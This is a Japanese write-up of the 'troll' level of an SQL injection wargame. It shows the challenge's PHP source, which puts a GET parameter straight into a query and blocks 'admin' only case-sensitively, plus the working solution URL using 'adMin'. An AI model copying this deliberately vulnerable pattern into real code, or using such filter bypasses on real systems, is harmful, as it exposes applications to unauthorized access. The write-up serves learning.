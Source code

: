 # troll

## answer

```
https://los.eagle-jump.org/troll_6d1f080fa30a07dbaf7342285ba0e158.php?id=adMin
```

## problem

```
query : select id from prob_troll where id=''

<?php  
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(@ereg("admin",$_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/troll_6d1f080fa30a07dbaf7342285ba0e158.php?id=1
```

とすると

```
query : select id from prob_troll where id='1'
```

となった。

コードを読んでいく。コード量は少なめだなぁ。

```
if(@ereg("admin",$_GET[id])) exit("HeHe");
```

eregはかなり古いバージョンのPHPの関数で、正規表現でのマッチングを行う。

```
if($result['id'] == 'admin') solve("troll");
```

idにadminを入力できたらいけそう。 

MySQLは基本的に大文字と小文字の区別をしないからである。


```
?id=adMin
```

これでいけた。

ちなみにeregには他にも脆弱性がある。そんな関数なので今のバージョンでは非推奨になっている。


## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [エラー制御演算子 | php manual](https://www.php.net/manual/ja/language.operators.errorcontrol.php)

- [ereg | php manual](https://www.php.net/manual/ja/function.ereg.php)

- [文字列検索での大文字小文字の区別 | mysql manual](https://dev.mysql.com/doc/refman/5.6/ja/case-sensitivity.html)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)
